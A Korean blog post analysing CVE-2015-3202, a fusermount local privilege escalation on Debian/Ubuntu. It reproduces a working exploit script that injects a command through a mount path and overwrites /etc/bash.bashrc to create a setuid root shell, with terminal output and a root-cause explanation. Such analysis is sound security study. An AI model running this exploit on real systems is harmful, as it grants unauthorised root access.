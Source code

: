 ```yaml
---
layout: post
title: "CVE-2015-3202: fusermount"
date: 2015-05-22 23:07:55 +0900
comments: true
categories: 
---
```


Tavis Ormandy 가 데비안/우분투에서 root 를 얻는 버그를 공개했다.

[gist](https://gist.github.com/taviso/ecb70eb12d461dd85cba)

Twitter 에 올릴라고 140 자로 압축한 exploit 을 풀어봤다.

```
z@ubuntu:~$ cat babo.sh
echo "chmod 4755 /bin/sh" > /tmp/babo
chmod 755 /tmp/babo
mkdir -p /tmp/babo\;/tmp/babo
LIBMOUNT_MTAB=/etc/bash.bashrc _FUSE_COMMFD=0 fusermount /tmp/babo\;/tmp/babo
```

이 간단한 스크립트를 실행해본다.

```
z@ubuntu:~$ ./babo.sh
fusermount: failed to open /etc/fuse.conf: Permission denied
sending file descriptor: Socket operation on non-socket
z@ubuntu:~$ cat /etc/bash.bashrc
/dev/fuse /tmp/.6960;/tmp/.6960 fuse rw,nosuid,nodev,user=z 0 0
```

이제 관리자가 sudo 나 root login 하기를 기다린다.

```
z@ubuntu:~$ sudo -s
bash: /dev/fuse: Permission denied
root@ubuntu:~# exit
exit
z@ubuntu:~$ ls -lL /bin/sh
-rwsr-xr-x 1 root root 121272 Feb 10    2014 /bin/sh
z@ubuntu:~$
```

저 스크립트를 돌리면

1. fusermount 가 바보같이 /etc/bash.bashrc 에다가 마운트 테이블을 overwrite 하는데, 
2. 나중에 root 가 로그인할때 /etc/bash.bashrc 가 수행되면서, (sudo -s)
3. /tmp/.6960 이 수행되고
4. chmod 4755 /bin/sh 이 수행되면서
5. setuid 쉘이 만들어지는 결과

가 나오는 것으로 보인다.

핵심은 1 번 버그인 것 같은데,

1. fusermount 가 setuid 되어있다.
2. fusermount 가 /bin/mount 를 부를때 (setuid(geteuid()) 를 해서 ruid 를 0 를 만든다)
3. mount 는 root 가 불렀다고 착각한다. (fusermount 입장에서는 의도된 것이긴 하지만, mount 입장에서는 속은 것)
4. 이제 mount 디버깅용 환경 변수가 먹힌다. (LIBMOUNT_MTAB)
5. 이제 마운트 테이블로 어떤 화일이든 overwrite 할 수 있다.

sudo 쳐주기를 기다려야한다는 점에서, 실전에서 유용성은 많이 떨어진다고 본다.
